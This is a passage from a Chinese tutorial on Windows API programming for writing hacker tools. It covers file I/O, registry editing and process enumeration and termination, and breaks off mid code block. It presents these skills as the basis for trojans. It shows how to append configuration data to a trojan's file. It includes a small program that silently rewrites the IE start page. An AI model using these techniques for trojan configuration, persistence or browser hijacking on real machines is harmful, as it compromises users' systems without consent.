简单地讲述了 UDP 服务端之后，我们再来了解下 UDP 客户端。UDP 客户端比 UDP 服务端还要简单，在调用 `socket` 函数建立套接字之后，就可以调用 `sendto` 和 `recvfrom` 函数发送、接收数据了。到此，网络通信编程就讲完了。

#### 1.3.2 文件操作编程

很多黑客工具都是需要对文件进行操作的，比如清除日志的工具就要对文件进行删除操作，加花指令的程序就要对文件进行读写操作，还有木马后门要对自身文件进行复制操作等等。所以文件操作编程，是编写黑客工具必须要掌握的编程技术。

##### 1.3.2.1 文件读写编程

文件读写操作的实现，其实质也是对 API 函数的调用。微软为我们提供了强大的文件读写（也叫文件 I/O 操作）编程接口。文件读写操作的一般步骤如图 12 所示。



从图中可以看出，要对文件进行读写操作，首先要调用 `CreateFile` 函数打开或者创建文件，这个函数的原型如下：

```c
HANDLE CreateFile(
    LPCTSTR lpFileName,
    DWORD dwDesiredAccess,
    DWORD dwShareMode,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    DWORD dwCreationDisposition,
    DWORD dwFlagsAndAttributes,
    HANDLE hTemplateFile
);
```

`lpFileName` 参数指向要创建或打开的文件名，要包含全路径，如 `"c:\\a.exe"`。

`dwDesiredAccess` 参数表示存取文件的方式，它指向了要对文件进行何种操作。`GENERIC_READ` 表示以只读方式打开文件；`GENERIC_WRITE` 表示以只写方式打开文件。当然两个参数可以组合使用，如 `GENERIC_WRITE|GENERIC_READ` 表示以可读可写方式打开。

`lpSecurityAttributes` 参数指明了文件的安全属性，也就是当文件被打开后，其他程序能以何种方式打开文件。这里介绍几种重要的取值：

- `0`：表示不允许文件再被打开
- `FILE_SHARE_READ`：表示允许其他程序以读方式打开
- `FILE_SHARE_WRITE`：表示允许其他程序以写方式打开

`dwCreationDisposition` 参数指明了当文件存在或不存在时的操作。这里介绍几个重要的取值，说明如下：

- `CREATE_ALWAYS`：如果文件存在，以覆盖文件的方式创建。
- `CREATE_NEW`：如果文件不存在则创建文件，存在则调用失败。
- `OPEN_ALWAYS`：如果文件存在就打开文件，不存在则创建文件。
- `OPEN_EXISTING`：如果文件存在则打开文件，不存在则失败。

`dwFlagsAndAttributes` 参数表示新建文件的属性，具体如下：

- `FILE_ATTRIBUTE_ARCHIVE`：存档类型
- `FILE_ATTRIBUTE_HIDDEN`：隐藏类型
- `FILE_ATTRIBUTE_READONLY`：只读类型
- `FILE_ATTRIBUTE_SYSTEM`：系统类型

`hTemplateFile` 参数指向用于存取的模板文件的句柄。系统会复制模板文件的所有属性到新创建的文件，没有则填 `NULL`。

函数调用成功返回文件句柄，失败则返回 `INVALID_HANDLE_VALUE`。此函数的具体调用如下：

以只读方式打开已存在的文件：

```c
hFile=CreateFile("c:\\hack.txt", GENERIC_READ, FILE_SHARE_READ, NULL,
OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

以只写方式打开已存在的文件：

```c
hFile=CreateFile(argv[1], GENERIC_WRITE, FILE_SHARE_READ, NULL,
OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
```

创建一个新文件：

```c
hFile=CreateFile("c:\\hack.txt", GENERIC_WRITE, 0, NULL, CREATE_ALWAYS,
FILE_ATTRIBUTE_NORMAL, NULL);
```

调用 `CreateFile` 函数成功后，就返回了所打开或者所创建的文件句柄，这就完成了图中的第一步。接下去就可以调用 `WriteFile` 和 `ReadFile` 函数读写文件了。这两个函数的原型如下：

```c
BOOL WriteFile(
  HANDLE hFile,
  LPCVOID lpBuffer,
  DWORD nNumberOfBytesToWrite,
  LPDWORD lpNumberOfBytesWritten,
  LPOVERLAPPED lpOverlapped
);

BOOL ReadFile(
  HANDLE hFile,
  LPVOID lpBuffer,
  DWORD nNumberOfBytesToRead,
  LPDWORD lpNumberOfBytesRead,
  LPOVERLAPPED lpOverlapped
);
```

`hFile` 参数指向要读写的文件句柄，由 `CreateFile` 函数返回。  
`lpBuffer` 参数指向一个缓冲区，用于存储读写的数据。  
`nNumberOfBytesToWrite / nNumberOfBytesToRead` 参数表示要求写入或读取的字节数。  
`lpNumberOfBytesWritten / lpNumberOfBytesRead` 参数用于返回实际写入或读取的字节数。  
`lpOverlapped` 参数是指向 `OVERLAPPED` 结构的指针，设为 `NULL` 即可。  
读取或写入成功，函数返回 `TRUE`，否则为 `FALSE`。

在完成了文件的读写操作后，还不能忘记把文件句柄关闭，以便于其他程序对文件的操作，这就是图中的最后一步。这里调用 `CloseHandle` 函数来关闭文件句柄，这个函数只有一个参数，为文件句柄。

有了上面这些知识，我们只需要根据图 12 中的流程进行编程，就可以轻松地写出文件读写程序了。

下面我们来实现一个小程序。现在大部分木马后门都提供了配置功能，比如要反向连接的域名、开机启动的方式、木马发信的 asp 网页地址等。这种配置功能是怎么实现的呢？其中一种方法就是向文件末尾写入数据，然后木马运行后就会读取这些数据，完成相应的功能。下面的小程序就来实现向文件末尾写入数据，具体代码如下：

```c
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[])
{
    // 调用 CreateFile 函数以只写方式打开一个文件
    HANDLE hFile=CreateFile(argv[1], GENERIC_WRITE, FILE_SHARE_READ, NULL,
        OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if(hFile==INVALID_HANDLE_VALUE)
    {
        printf("CreateFile error\n");
        return 0;
    }

    // 调用 SetFilePointer 函数调整文件指针位置，移动到文件末尾
    if(SetFilePointer(hFile, 0, NULL, FILE_END)==-1)
    {
        printf("SetFilePointer error\n");
        return 0;
    }

    char buff[256]="配置信息";
    DWORD dwWrite;

    // 把 buff 中的内容写入到文件末尾
    if(!WriteFile(hFile, &buff, strlen(buff), &dwWrite, NULL))
    {
        printf("WriteFile error\n");
        return 0;
    }

    printf("往%s中写入数据成功\n", argv[1]);
    CloseHandle(hFile);
}
```

> **SetFilePointer 函数**
>
> 当一个文件被打开时，系统就会为它维护一个文件指针，指向对文件的下一个读写操作的位置，所以随着文件的读写，文件指针也会随之移动。`SetFilePointer` 函数就是设置文件指针位置的，上面代码中是这样调用的：`SetFilePointer(hFile,0,NULL,FILE_END)`。
>
> 第一个参数是文件句柄；第二个参数是指针要移动的距离；第三个参数是指针要移动距离的 32 位值，一般设 `NULL`；最后一个参数是指要从哪个位置移动（`FILE_BEGIN`：从文件头部开始移动；`FILE_CURRENT`：从文件指针当前位置开始移动；`FILE_END`：从文件末尾开始移动）。
>
> 这里还用到了 `main` 函数里的一个参数 `argv[]`，这个参数是接收文件运行时的参数，`argv[0]` 表示自身文件名，`argv[1]` 表示第一个参数，`argv[2]` 表示第二个参数，依此类推。所以这个小程序的运行格式是：`writefile.exe 文件名`。
>
> `main` 函数还有一个参数 `argc`，是指向传入参数个数的。下面是这个小程序的运行效果，如图 13 所示。



##### 1.3.2.2 文件的复制、移动和删除

除了读写文件以外，还需要掌握复制文件、移动文件、删除文件这三种文件操作的 API。先来看一下复制文件的 API 函数，其原型如下：

```c
BOOL CopyFile(
    LPCTSTR lpExistingFileName,
    LPCTSTR lpNewFileName,
    BOOL bFailIfExists
);
```

`lpExistingFileName` 参数指向源文件名，就是要进行复制操作的文件名（完整路径）。

`lpNewFileName` 参数指向复制到目标位置的新文件名（完整路径）。

`bFailIfExists` 参数指向目标位置存在同文件名文件时的操作，`TRUE` 表示调用失败，`FALSE` 表示覆盖已存在的文件。

如果函数调用成功则返回 `TRUE`，否则返回 `FALSE`。

接着是文件移动操作的 API，其原型如下：

```c
BOOL MoveFile(
    LPCTSTR lpExistingFileName,
    LPCTSTR lpNewFileName
);
```

`lpExistingFileName` 参数指向要移动的文件名及其路径。  
`lpNewFileName` 参数指向移动到目的地的文件名及其路径。  
如果函数调用成功则返回值为 `TRUE`，否则返回 `FALSE`。

最后是文件删除的函数，函数原型如下：

```c
BOOL DeleteFile(LPCTSTR lpFileName);
```

此函数只有一个参数，它是一个指向文件名字字符串的指针，字符串中存储的是包含具体路径的文件名。  
如果函数调用成功则返回 `TRUE`，否则返回 `FALSE`。

#### 1.3.3 注册表编程基础

注册表是 Windows 系统的核心配置文件，系统的许多软硬件配置信息都会存储在注册表中。一般我们安装程序后，都会向注册表中写入一些关于自身程序的信息。当然在黑客编程中，注册表编程也是至关重要的，我们可以更改很多系统配置，比如开远程终端；而且还有些程序会把密码放在注册表中，我们也可以通过注册表编程来读取；当然更可以修改注册表来实现自启动。注册表编程的具体流程如图 14 所示。



> **编程小贴士**
>
> **键、键值和根键**
>
> 点击“开始”/“运行”，输入“regedit”，“确定”后就打开了注册表编辑器。那么键就是在左边的类似文件夹的东西；键值就是右边显示的包含在这些“文件夹”中的“文件”。根键就是最顶层的键，我们可以把它看作盘符。

根键具体包含下面几个：

- `HKEY_CLASSES_ROOT`
- `HKEY_CURRENT_USER`
- `HKEY_LOCAL_MACHINE`
- `HKEY_USERS`
- `HKEY_CURRENT_CONFIG`

首先我们可以从图 14 中看到，在进行所有操作之前，必须先调用 `RegCreateKeyEx` 函数或 `RegOpenKeyEx` 函数打开或创建注册表子键，返回子键句柄后，利用这个句柄才能进行一系列操作。由于 `RegCreateKeyEx` 函数可以打开或者创建注册表子键，而 `RegOpenKeyEx` 函数只能打开注册表子键，所以这里只介绍 `RegCreateKeyEx` 函数，其原型如下：

```c
LONG RegCreateKeyEx(
    HKEY hKey,
    LPCTSTR lpSubKey,
    DWORD Reserved,
    LPTSTR lpClass,
    DWORD dwOptions,
    REGSAM samDesired,
    LPSECURITY_ATTRIBUTES lpSecurityAttributes,
    PHKEY phkResult,
    LPDWORD lpdwDisposition
);
```

`hKey` 参数指向一个打开了的键句柄，可以由 `RegCreateKeyEx` 函数和 `RegOpenKeyEx` 函数返回，也可以是注册表的根键。  
`lpSubKey` 参数指向要打开子键的名称。  
`Reserved` 参数保留未使用，设 `0` 即可。  
`lpClass` 参数指向一个类名，一般设 `0`。  
`dwOptions` 参数表示创建子键选项，`REG_OPTION_NON_VOLATILE` 表示信息被保存在文件中，重启后保留；`REG_OPTION_VOLATILE` 表示信息被保存在内存中，系统重启后失效。  
`samDesired` 参数常用取值如下：

- `KEY_ALL_ACCESS`：允许所有操作。
- `KEY_EXECUTE`：允许读取操作。
- `KEY_QUERY_VALUE`：允许查询键值中的数据。
- `KEY_SET_VALUE`：允许创建键值和修改键值。
- `KEY_CREATE_SUB_KEY`：允许建立下一层子键。
- `KEY_ENUMERATE_SUB_KEYS`：允许枚举下一层子键。
- `KEY_CREATE_LINK`：允许建立符号链接。

上面的参数可以组合使用。  
`lpSecurityAttributes` 参数指定了键句柄的继承性。  
`phkResult` 参数用于返回创建或打开的子键句柄。  
`lpdwDisposition` 参数指向当子键不存在时是否要创建：`REG_CREATED_NEW_KEY` 表示当子键不存在时创建它，存在时打开它；`REG_OPENED_EXISTING_KEY` 表示子键存在时打开它，不存在时不创建它。  
函数执行成功返回 `ERROR_SUCCESS`，并且在 `phkResult` 参数中装入子键的有效句柄，否则返回一个非零值。

我们可以从图中看出，当操作结束后，都需要调用 `RegCloseKey` 函数关闭子键句柄。`RegCloseKey` 函数只有一个参数：`hKey`，它指向一个子键句柄，由 `RegCreateKeyEx` 函数的 `phkResult` 参数返回。

> **RegDeleteKey 函数**
>
> 与 `RegCreateKeyEx` 函数所对应的是 `RegDeleteKey` 函数，它是用来实现删除注册表子键的。它有两个参数，与 `RegCreateKeyEx` 前两个参数相同。如果函数调用成功返回 `ERROR_SUCCESS`，否则返回一个非零值。

下面我们来介绍实现每一步操作的函数，首先是利用 `RegQueryValueEx` 和 `RegSetValueEx` 函数设置和读取键值。两个函数的原型如下：

```c
LONG RegQueryValueEx(
    HKEY hKey,
    LPTSTR lpValueName,
    LPDWORD lpReserved,
    LPDWORD lpType,
    LPBYTE lpData,
    LPDWORD lpcbData
);
```

此函数用于获取一个键值的数据。

```c
LONG RegSetValueEx(
    HKEY hKey,
    LPCTSTR lpValueName,
    DWORD Reserved,
    DWORD dwType,
    CONST BYTE *lpData,
    DWORD cbData
);
```

此函数用于设置一个键值的数据。  
`hKey` 参数指向一个有效子键的句柄，由 `RegCreateKeyEx` 函数的 `phkResult` 参数返回。  
`lpValueName` 参数指向要读取和设置的键值名称。  
`lpReserved` 参数保留，未使用，设 `0` 即可。  
`lpType` 参数指向要读取和设置的键值数据类型。  
`lpData` 参数指向要读取和写入数据的缓冲区。  
`lpcbData/cbData` 参数指向缓冲区长度。  
如果函数调用成功，返回值是 `ERROR_SUCCESS`，否则返回一个非零值。

有了上面这些基础，我们就可以对注册表进行读写操作了。下面给出两个设置注册表键值的函数（在以后的章节中会经常用到这两个函数）：

```c
// 用于修改字符串类型键值
void CreateStringReg(HKEY hRoot, char *szSubKey, char* ValueName, char *Data)
{
    HKEY hKey;

    // 打开注册表键，不存在则创建它
    long iRet = RegCreateKeyEx(hRoot, szSubKey, 0, NULL, REG_OPTION_NON_VOLATILE,
                               KEY_ALL_ACCESS, NULL, &hKey, NULL);
    if (iRet != ERROR_SUCCESS)
    {
        printf("error: no RegCreateKeyEx %s\n", szSubKey);
        return;
    }

    // 修改注册表键值，没有则创建它
    iRet = RegSetValueEx(hKey, ValueName, 0, REG_SZ, (BYTE*)Data, strlen(Data));
    if (iRet != ERROR_SUCCESS)
    {
        ...
    }
}
```

```c
// 用于修改数字类型键值
void CreateDWORDReg(HKEY hRoot, char *szSubKey, char* ValueName, DWORD Data)
{
    HKEY hKey;
    // 打开注册表键，不存在则创建它
    long lRet = RegCreateKeyEx(hRoot, szSubKey, 0, NULL,
        REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hKey, NULL);
    if (lRet != ERROR_SUCCESS)
    {
        printf("error no RegCreateKeyEx %s\n", szSubKey);
        return;
    }

    DWORD dwSize = sizeof(DWORD);
    // 修改注册表键值，没有则创建它
    lRet = RegSetValueEx(hKey, ValueName, 0, REG_DWORD, (BYTE*)&Data, dwSize);
    if (lRet != ERROR_SUCCESS)
    {
        printf("error no RegSetValueEx %s\n", ValueName);
        return;
    }

    RegCloseKey(hKey);
}
```

hRoot 参数指向一个打开了的键的句柄，或根键。  
szSubKey 参数指向要打开的子键的名称。  
ValueName 参数指向要设置的键值的名称。  
Data 参数指向要写入数据的缓冲区。

到这里，注册表的读写操作已经讲完了，下面我们来实现删除注册表键值功能，这里用到 `RegDeleteValue` 函数，其函数原型如下：

```c
LONG RegDeleteValue(
    HKEY hKey,
    LPCTSTR lpValueName
);
```

hKey 参数表示键值所在子键的句柄，可以由 `RegCreateKeyEx` 函数的 `phkResult` 参数返回。  
lpValueName 参数指向要设置的键值的名称。  
如果函数调用成功返回 `ERROR_SUCCESS`，否则返回一个非零值。

到这里注册表编程的讲解已经差不多了，下面我们用一个修改 IE 主页的例子来结束注册表编程的讲解。

##### IE 主页在注册表中的位置

IE 主页的 URL 是保存在注册表中的，所以我们只要修改了注册表也就改掉了 IE 主页。其具体位置：`HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\Main` 下 `Start Page` 键值。

下面是具体代码（源码在光盘“第一章\Windows 系统编程基础\StartPage”下）：

```c
int APIENTRY WinMain(HINSTANCE hInstance,
                    HINSTANCE hPrevInstance,
                    LPSTR     lpCmdLine,
                    int       nCmdShow)
{
    // 要修改的网址
    char StartPage[255]="http://www.nohack.cn/";

    // 调用修改字符串类型键值的函数
    CreateStringReg(HKEY_CURRENT_USER,
      "Software\\Microsoft\\Internet Explorer\\Main",
      "Start Page", StartPage);

    return 0;
}
```

#### 1.3.4 进程和线程编程

Windows 是一个抢占式多任务的操作系统，也就是说操作系统为每个进程安排一定的 CPU 时间，这种 CPU 时间是以一种循环的方式提供的，这样之后就会造成一种假象，仿佛所有进程都是同时运行的。而在一个进程中一般又存在一个或多个线程，这一节我们就来学习进程和线程的编程技术。

##### 1.3.4.1 进程编程

进程这一部分，我们将通过一个编程实例来对其进行比较全面的讲解。这个实例程序有两个功能，第一是列举进程，第二是结束程序进程。下面是这个程序的流程图（如图 15 所示）。



图 15

第一步是接收不同的参数，这一步我们用 `main` 函数的两个参数：`argc` 和 `argv[]` 来实现，前面已经讲解过这两个参数，这里不再重复。

我们先来实现列举进程的功能，从图 15 中可以看到它第一步调用 `CreateToolhelp32Snapshot` 函数得到系统进程快照句柄。这里必须要注意，在调用 `CreateToolhelp32Snapshot` 函数之前必须先包含头文件 `tlhelp32.h`。`CreateToolhelp32Snapshot` 函数的原型如下：

```c
HANDLE WINAPI CreateToolhelp32Snapshot(
    DWORD dwFlags,
    DWORD th32ProcessID
);
```

dwFlags 参数指定了获取系统进程快照的类型，其取值可以有如下几种：

- `TH32CS_SNAPHEAPLIST`：列举 `th32ProcessID` 指定进程中的堆。
- `TH32CS_SNAPMODULE`：列举 `th32ProcessID` 指定的进程中的模块。
- `TH32CS_SNAPPROCESS`：列举系统范围内的所有进程。
- `TH32CS_SNAPTHREAD`：列举系统范围内的所有线程。

`th32ProcessID` 参数指向要获取进程快照的进程的 ID，获取系统内所有进程快照时设 0。函数执行成功返回快照句柄，否则返回 `INVALID_HANDLE_VALUE`。这个函数具体调用方法如下：

```c
HANDLE hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
if (hProcessSnap == INVALID_HANDLE_VALUE)
{
    printf("CreateToolhelp32Snapshot error");
    return 0;
}
```

这样我们就得到了系统进程快照句柄了。从图 15 中可以知道，下面就可以调用 `Process32First` 和 `Process32Next` 函数列举进程了。首先其函数原型如下：

```c
BOOL Process32First(
    HANDLE hSnapshot,
    LPPROCESSENTRY32 lppe
);
```

此函数用于查找系统进程快照中的第一个进程。

```c
BOOL Process32Next(
    HANDLE hSnapshot,
    LPPROCESSENTRY32 lppe
);
```

此函数用于在调用完 `Process32First` 后继续枚举进程。两个函数的参数完全一样，`hSnapshot` 参数指向由 `CreateToolhelp32Snapshot` 函数返回的系统进程快照句柄。`lppe` 参数指向一个 `PROCESSENTRY32` 的结构指针，进程的信息会被返回到这个结构中。结构原型如下：

```c
typedef struct {
    DWORD dwSize;              // PROCESSENTRY32 结构长度，可以由 sizeof 函数取得
    DWORD cntUsage;            // 进程的应用记号
    DWORD th32ProcessID;       // 进程的 ID
    DWORD th32DefaultHeapID;   // 进程默认堆 ID
    DWORD th32ModuleID;        // 进程模块 ID
    DWORD cntThreads;          // 进程所创建的线程数
    DWORD th32ParentProcessID; // 父进程 ID
    DWORD pcPriClassBase;      // 创建线程的优先级
    DWORD dwFlags;             // 未使用
    CHAR  szExeFile[MAX_PATH]; // 进程的可执行文件名
} PROCESSENTRY32;
```

这两个函数当枚举到进程时返回 `TRUE`，否则返回 `FALSE`。

由于当枚举到一个进程的时候 `lppe` 参数中就会返回进程的信息，所以我们就可以读取这些进程信息，然后输出。这部分的代码如下：

```c
PROCESSENTRY32 pe32;
pe32.dwSize=sizeof(pe32);
// 枚举列表中的第一个进程
BOOL bProcess=Process32First(hProcessSnap,&pe32);
while(bProcess)
{
    // 格式化进程名和进程ID
    wsprintf(buff,"%s--------------%d\r\n", pe32.szExeFile, pe32.th32ProcessID);
    // 输出进程名和进程ID
    printf(buff);
    memset(buff,0x00,1024);
    // 继续枚举进程
    bProcess=Process32Next(hProcessSnap,&pe32);
}
```

当然最后不要忘了做一步，调用 `CloseHandle` 函数关闭由 `CreateToolhelp32Snapshot` 函数返回的系统进程快照句柄。这样列举进程的代码就实现了，下面我们来实现结束进程的代码。首先需要调用 `OpenProcess` 函数打开进程，得到进程句柄才能利用这个句柄进行结束进程操作。

`OpenProcess` 函数的原型如下：

```c
HANDLE OpenProcess(
    DWORD dwDesiredAccess,
    BOOL bInheritHandle,
    DWORD dwProcessId
);
```

dwDesiredAccess 参数指向进程对象的访问权限，重要的几个值如下：

- `PROCESS_ALL_ACCESS`：所有权限。
- `PROCESS_QUERY_INFORMATION`：遍历该进程信息的权限。
- `bInheritHandle` 参数指向此函数返回进程句柄的继承性，`TRUE` 表示可继承，`FALSE` 表示不可继承。
- `dwProcessId` 参数指向要打开进程的 ID。
- 如果函数执行成功则返回所打开进程的句柄，否则返回 `NULL`。

这个函数的具体调用如下：

```c
// 打开进程
HANDLE hProcess=OpenProcess(PROCESS_ALL_ACCESS,FALSE,Pid);
if(hProcess==NULL)
{
    printf("OpenProcess error.\n");
    return 0;
}
```

得到进程句柄后我们就可以调用 `TerminateProcess` 函数结束进程了，`TerminateProcess` 函数的原型如下：

```c
BOOL TerminateProcess(
    HANDLE hProcess,
    UINT   uExitCode
);
```

hProcess 参数指向要结束进程的句柄，由 `OpenProcess` 函数返回。uExitCode 参数指向进程退出时的代码，设 0 即可。如果函数操作顺利完成，则返回非零值；如果操作失败，则返回值为零。最后还要调用 `CloseHandle` 函数关闭由 `OpenProcess` 函数返回的进程句柄。到此为止整个程序就实现了，具体代码在光盘中“第一章\Windows 系统编程基础\Process”下，程序执行效果如图 16 所示。



图 16

##### 1.3.4.2 线程编程

> **编程小贴士：什么是线程？**
>
> 线程是进程中的实体，一个进程可以拥有多个线程，一个线程必须有一个父进程。线程不拥有系统资源，只有运行必需的一些数据结构，它与父进程的其它线程共享该进程所拥有的全部资源。  
> 进程可以创建和撤销线程，从而实现程序的并发执行。一般，线程具有就绪、阻塞和运行三种基本状态。在多数中央处理器的系统里，不同线程可以同时在不同的中央处理器上运行，甚至当它们属于同一个进程时也是如此。

也就是说在一个进程中创建几个线程可以提高程序的执行效率，并且有些程序为了同时执行多个不同的代码模块，必须使用多线程技术。

首先我们来了解下，线程是怎么被创建的。这里用到了 `CreateThread` 函数，这个函数将在进程中创建一个新线程。其函数原型如下：

```c
HANDLE CreateThread(
    LPSECURITY_ATTRIBUTES lpThreadAttributes,
    DWORD dwStackSize,
    LPTHREAD_START_ROUTINE lpStartAddress,
    LPVOID lpParameter,
    DWORD dwCreationFlags,
    LPDWORD lpThreadId
);
```

lpThreadAttributes 参数指向结构 `SECURITY_ATTRIBUTES` 的指针，用于定义新线程的安全属性，这里设 `NULL` 即可。  
dwStackSize 参数表示用来分配、以字节数表示的线程堆栈大小，`NULL` 为默认大小。  
lpStartAddress 参数指向一个线程函数地址。

> **编程加油站：什么是线程函数？**
>
> 每个线程都有自己的线程函数，当然多个线程可以共用一个线程函数。线程函数是线程具体执行的代码，也就是说这个线程要执行的就是这个线程函数中的代码。

线程函数的具体定义如下：

```c
